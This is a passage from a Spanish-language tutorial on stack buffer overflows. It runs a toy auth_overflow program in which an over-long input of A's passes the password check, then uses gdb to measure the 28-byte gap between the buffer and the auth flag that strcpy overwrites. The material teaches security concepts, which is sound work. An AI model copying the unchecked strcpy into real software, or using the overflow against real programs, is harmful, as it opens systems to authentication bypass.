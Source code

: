 ```c
      printf("      Acceso concedido.n");
       printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-n");
   } else {
      printf("nAcceso denegado.n");
   }
}
```

No parece que el programa tenga ningún error, admite dos contraseñas (brillig y outgrabe), vamos a probarlo:

```bash
hkr-> ./auth_overflow.binary contraseña

Acceso denegado.
```

```bash
hkr-> ./auth_overflow.binary brillig

-=-=-=-=-=-=-=-=-=-=-=-=-=-
      Acceso concedido.
-=-=-=-=-=-=-=-=-=-=-=-=-=-
```

```bash
hkr-> ./auth_overflow.binary AAAAAAAAAAAAAAAAAAAAAAAAAAAAA

-=-=-=-=-=-=-=-=-=-=-=-=-=-
      Acceso concedido.
-=-=-=-=-=-=-=-=-=-=-=-=-=-
```

¿Qué ha pasado?, vamos a echar un vistazo con gdb:

```bash
gdb -q auth_overflow.c.binary
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
(gdb) b 9
Breakpoint 1 at 0x8048421: file auth_overflow.c, line 9.
(gdb) b 16
Breakpoint 2 at 0x804846f: file auth_overflow.c, line 16.
(gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Starting program: /home/hkr/booksrc/auth_overflow.c.binary
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, check_authentication (password=0xbffff9f4 'A' <repeats>)
    at auth_overflow.c:9
9               strcpy(password_buffer, password);
(gdb) x/s password_buffer
0xbffff7d0:      ")����o��b���)205�04b�o������b"
(gdb) x/x &auth;_flag
0xbffff7ec:     0x00000000
(gdb) print 0xbffff7ec - 0xbffff7d0
$1 = 28
(gdb) x/16xw password_buffer
0xbffff7d0:     0xb7f9f729      0xb7fd6ff4      0xbffff808      0x08048529
0xbffff7e0:     0xb7fd6ff4      0xbffff8a0      0xbffff808      0x00000000
0xbffff7f0:     0xb7ff47b0      0x08048510      0xbffff808      0x080484bb
0xbffff800:     0xbffff9f4      0x08048510      0xbffff868      0xb7eafebc
(gdb)
```
